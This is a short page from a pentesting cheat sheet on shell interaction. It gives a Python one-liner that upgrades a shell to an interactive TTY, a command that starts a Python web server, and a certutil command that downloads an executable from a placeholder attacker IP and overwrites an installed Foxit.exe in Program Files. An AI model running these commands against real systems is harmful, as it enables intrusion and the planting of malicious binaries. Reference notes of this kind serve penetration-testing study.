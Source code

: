 ```yaml
---
layout: default
title: Shell Interraction
nav_order: 2
has_children: false
parent: Pentesting
grand_parent: xMAD0X Shiny Adventure
---
```


## Shell Interraction

### Interactive Shell 
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Simple Web Server
```bash
sudo python3 -m http.server
```

### File Download
#### Windows CMD
```powershell
certutil -urlcache -f http://$YOUR_IP/Foxit.exe "C:\Program Files (x86)\Foxit Software\Foxit.exe"
```

